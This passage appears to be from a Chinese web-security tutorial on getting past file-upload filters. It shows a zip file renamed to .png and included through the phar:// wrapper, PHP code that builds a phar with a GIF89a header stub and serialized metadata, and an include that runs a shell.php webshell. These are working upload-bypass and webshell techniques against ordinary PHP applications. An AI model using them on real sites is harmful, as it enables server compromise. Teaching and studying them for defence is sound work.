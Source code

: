 filename[1] = php<br>
filename[0] = png<br>

# **三、zip、phar文件上传**
此类文件上传的绕过一般都是配合文件包含进行的，以压缩文件形式绕过上传限制，通过phar协议进行文件包含，执行webshell。

* ****zip上传绕过****：我们先创建一个php文件，里面输入<?php echo phpinfo(); ?>就行了，接下来我们把php文件压缩成zip文件，必须通过测试发现只支持上传png文件，所以我们把zip文件改成png，<br>
(1.php→压缩→1.zip→重命名→1.png→上传),然后通过?file=phar://uploads/xxx.png/1进行文件包含。

* ****phar文件上传绕过****：

  phar文件结构<br>

  A stub ：可以理解为一个标志，格式为xxxHALT_COMPILER();?>，前面内容不限，但必须以_HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。

  A manifest describing the contents ：phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

  The file contents ：被压缩文件的内容

  A signature for verifying Phar integrity ：签名，放在文件末尾

  生成phar文件的示例代码：（注意：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件）

```php
  <?php
  class PharDemo{
      private $message;
      public function __construct($msg){
          $this->message = $msg;
      }
      function __destruct(){
          echo $this->message;
      }
  }
  $phar = new Phar("phar.phar");
  $phar->startBuffering();
  $phar->setStub(",GIF89a.<?php __HALT_COMPILER(); ?>"); //设置stub,可设置GIF89a.头，绕过文件后缀检测
  $o = new PharDemo("oh oh oh !!!");
  $phar->setMetadata($o); //将自定义的meta-data存入manifest
  $phar->addFromString("test.txt", "test"); //添加要压缩的文件
  //签名自动计算
  $phar->stopBuffering();
```

```php
  callphar.php
  <?php
      include 'phar://my.phar/shell.php';
  ?>
  //访问callphar.php即可调用shell.php
  //注意：phar文件不受文件名限制，即my.phar可以任意的重命名为aaa.bbb
  callphar.php
  <?php
      include 'phar://aaa.bbb/shell.php';
  ?>
```
